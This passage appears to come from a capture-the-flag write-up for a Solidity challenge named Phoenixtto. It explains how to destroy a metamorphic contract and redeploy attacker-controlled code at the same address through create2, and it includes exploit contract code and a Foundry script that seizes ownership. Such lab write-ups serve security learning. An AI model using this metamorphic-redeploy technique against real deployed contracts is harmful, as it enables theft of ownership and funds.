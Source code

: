 - `getImplementation` is the address of the implementation contract that will be used as the code deployed into `addr` thanks to the metamorphic nature of it.
- `addr` is the address of the "final" `Phoenixtto` contract that will contain the implementation code of `getImplementation`

What we need to do is to

1. Destroy the current `Phoenixtto` contract to be able to re-deploy into the same address. This is required because otherwise the `create2` operation would fail... you cannot override an already existing contract.
2. Build a custom contract that at least contains a function to capture the monster and the `reBorn` function that is called by the `Laboratory` at the end of the execution of `Laboratory.reBorn(bytes memory _code)`
3. Use our own contract bytecode as the input of `Laboratory.reBorn`
4. Catch the monster
5. End the challenge!

Here's the code of our custom smart contract

```solidity
contract PhoenixttoMutated {
    address public owner;

    function reBorn() external {
        // we don't care about this part but we still need to expose it
        // otherwise Laboratory.reBorn would revert
    }

    function capture(string memory _newOwner) external {
        // do nothing
        owner = msg.sender;
    }
}
```

And here's the code to execute it to complete the challenge

```solidity
// What we need to do is to destroy the metamorphic contract
// And replace it with our own implementation

// Destroy the metamorphic contract
Phoenixtto metamorphic = Phoenixtto(laboratory.addr());
// we don't care what we pass here, it just needs to go into the `else` case
// and selfdestruct itself
// The `_isBorn` must be `true` and the caller must not be a contract or called via `call`
// because `msg.sender` must be equal to `tx.origin`
vm.prank(player, player);
metamorphic.capture("");

// Re-deploy the implementation that will replace the metamorphic contract code
// with our mutated vdersion of the Phoenixtto contract
laboratory.reBorn(type(PhoenixttoMutated).creationCode);

// now we can call our own implementation of the `capture` function that will use the code of
// PhoenixttoMutated.capture
vm.prank(player);
metamorphic.capture("");
```
